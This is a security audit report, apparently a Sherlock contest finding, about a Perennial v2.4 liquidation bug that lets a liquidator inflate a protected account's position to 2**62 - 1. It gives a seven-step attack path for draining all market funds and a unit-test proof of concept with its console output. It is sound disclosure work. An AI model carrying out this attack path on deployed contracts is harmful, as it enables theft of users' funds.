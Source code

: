 Clumsy Pink Otter

High

# When account is liquidated (protected), liquidator can increase account's position to any value up to `2**62 - 1` breaking all market accounting and stealing all market funds.

### Summary

Previously, there was a check which enforced position to only decrease during liquidation. However, the check is gone and in the current code only the condition of `pending.negative == latestPosition.magnitude`:
```solidity
  if (!context.pendingLocal.neg().eq(context.latestPositionLocal.magnitude())) return false; // no pending zero-cross, liquidate with full close
```

If account (before liquidation) is already in this state (for example, user has closed his position fully, but it's still pending - in this case `pendingLocal.neg()` will equal `latestPositionLocal.magnitude()` before the liquidation), then liquidator can increase position, and since it doesn't influence neither latest position nor pending negative (closing), it's allowed. Moreover, all collateral and position size checks are ignored during liquidation, so account position can be increased to any value, including max that can be stored: 2**62 - 1. If this is done, all market accounting is messed up as any slight price change will create huge profit or loss for makers and the liquidated account. This can be abused by attacker to steal all market funds.

### Root Cause

Incorrect check when liquidating the account (lack of enforcement to only reduce the position):
https://github.com/sherlock-audit/2025-01-perennial-v2-4-update/blob/main/perennial-v2/packages/core/contracts/libs/InvariantLib.sol#L121

### Internal pre-conditions

None.

### External pre-conditions

None.

### Attack Path

1. Attacker opens tiny long position from account1 with minimal collateral, and tiny maker position from account2.
2. Attacker awaits for the position to become liquidatable. He can also force liquidation himself, as described in another issue (close position and withdraw collateral, then position becomes liquidatable), but this is not necessary, just makes it easier.
3. Just before the position becomes liquidatable, attacker closes it fully (so that it's pending close), making `pending.negative == latestPosition.magnitude`
4. Attacker liquidates his position, increasing it to `2**62 - 1` or any other huge amount.
5. Attacker awaits commited price for the epoch of position increase (or commits himself).
6. Immediately after that, attacker commits any other price different from the previous commit with timestamp 1 second after the previous commit.
7. In the same transaction, attacker withdraws all market collateral either from account1 or account2 (depending on which account ends up in a huge profit due to price change).
Result: Attacker steal all funds from the market.

### Impact

All market funds are stolen by the Attacker.

### PoC

Add to `test/unit/Market.test.ts` in the `invariant violations` context:
```solidity
it('liquidator increases position', async () => {
  const riskParameter = { ...(await market.riskParameter()) }
  const riskParameterTakerFee = { ...riskParameter.takerFee }
  riskParameterTakerFee.linearFee = parse6decimal('0.003')
  riskParameter.takerFee = riskParameterTakerFee
  riskParameter.margin = parse6decimal('0.012')
  riskParameter.maintenance = parse6decimal('0.01')
  riskParameter.minMargin = parse6decimal('5')
  riskParameter.minMaintenance = parse6decimal('5')
  riskParameter.staleAfter = BigNumber.from(14400)
  await market.updateRiskParameter(riskParameter)

  const COLLATERAL_USER = parse6decimal('30')
  const POSITION_USER = parse6decimal('10')
  const POSITION2_USER = parse6decimal('100000000')

  dsu.transferFrom.whenCalledWith(user.address, market.address, COLLATERAL_USER.mul(1e12)).returns(true)
  dsu.transferFrom.whenCalledWith(userB.address, market.address, COLLATERAL.mul(1e12)).returns(true)
  dsu.transferFrom.whenCalledWith(userC.address, market.address, COLLATERAL_USER.mul(1e12)).returns(true)

  await market
    .connect(userB)
    ['update(address,uint256,uint256,uint256,int256,bool)'](
      userB.address,
      POSITION,
      0,
      0,
      COLLATERAL,
      false,
    )

  await market
    .connect(user)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, POSITION_USER, 0, COLLATERAL_USER, false)

    const ORACLE_VERSION_3b = {
      price: parse6decimal('100'),
      timestamp: TIMESTAMP + 7200,
      valid: true,
    }

  oracle.at.whenCalledWith(ORACLE_VERSION_2.timestamp).returns([ORACLE_VERSION_2, INITIALIZED_ORACLE_RECEIPT])
  oracle.at.whenCalledWith(ORACLE_VERSION_3b.timestamp).returns([ORACLE_VERSION_3b, INITIALIZED_ORACLE_RECEIPT])
  oracle.at.whenCalledWith(ORACLE_VERSION_4.timestamp).returns([ORACLE_VERSION_4, INITIALIZED_ORACLE_RECEIPT])
  oracle.status.returns([ORACLE_VERSION_2, ORACLE_VERSION_4.timestamp])

  // position opened. now close position (user is not liquidatable yet)
  await market
    .connect(user)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, 0, 0, 0, false)

  var loc = await market.locals(user.address);
  console.log("user collateral before liquidation: " + loc.collateral);

  // version 3 is commited and user becomes liquidatable
  oracle.status.returns([ORACLE_VERSION_3b, ORACLE_VERSION_4.timestamp])        
  
  await market
    .connect(userC)
    ['update(address,uint256,uint256,uint256,int256,bool)'](user.address, 0, POSITION2_USER, 0, 0, true)

  oracle.status.returns([ORACLE_VERSION_4, ORACLE_VERSION_5.timestamp])

  await settle(market, user)
  await settle(market, userB)
  await settle(market, userC)

  var loc = await market.locals(user.address);
  console.log("user collateral: " + loc.collateral);
  var pos = await market.positions(user.address);
  console.log("user pos: long = " + pos.long);
})
```

Console output:
```solidity
user collateral before liquidation: 26310000
user collateral: -36899977657400
user pos: long = 100000000000000
```

### Mitigation

Require the liquidation order to only decrease position.